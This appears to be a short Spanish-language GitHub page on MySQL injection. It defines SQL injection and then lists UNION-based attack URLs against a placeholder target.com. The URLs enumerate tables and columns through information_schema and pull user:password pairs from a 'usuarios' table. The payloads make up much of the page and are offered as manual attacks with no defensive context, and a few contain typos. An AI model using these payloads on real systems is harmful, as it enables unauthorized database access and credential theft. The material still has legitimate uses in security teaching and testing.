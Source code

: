 # MYSQL Injection

Ss un método de infiltración de código intruso que se vale de una vulnerabilidad informática presente en una aplicación en el nivel de validación de las entradas para realizar operaciones sobre una base de datos. El origen de la vulnerabilidad radica en el incorrecto chequeo o filtrado de las variables utilizadas en un programa que contiene, o bien genera, código SQL. Es, de hecho, un error de una clase más general de vulnerabilidades que puede ocurrir en cualquier lenguaje de programación o script que esté embebido dentro de otro.

Se conoce como Inyección SQL, indistintamente, al tipo de vulnerabilidad, al método de infiltración, al hecho de incrustar código SQL intruso y a la porción de código incrustado.


## Algunos ataques Manuales

- http://www.target.com/target.php?id=1
- http://www.target.com/target.php?id=1=-1+union+select+1,2,3,4,5,6,7--
- http://www.target.com/target.php?id=1=-1+union+select+1,table_name,3,4,5,6,7+from+information_schema.tables
- http://www.target.com/target.php?id=1=-1+union+select+1,table_name,3,4,5,6,7+from+information_schema.tables+limit+2,1--
- http://www.target.com/target.php?id=1=-1+union+select+1,table_name,3,4,5,6,7+from+information_schema.tables+limit+76,1--
- http://www.target.com/target.php?id=1=-1+union+select+1,group_concat(column_name),3,4,5,6,7+from+information_schema,columns+where+table_name=char(NUMERO DEL ASCII)--
- http://www.target.com/target.php?id=1=-1+union+select+1,concat(user,0x3a,password),3,4,5,6,7+from+usuarios--

NOTA: [CONVERT TEXT TO ASCII HERE](http://www.unit-conversion.info/textools/ascii/)

pagina de interes: http://www.unixwiz.net/techtips/sql-injection.html
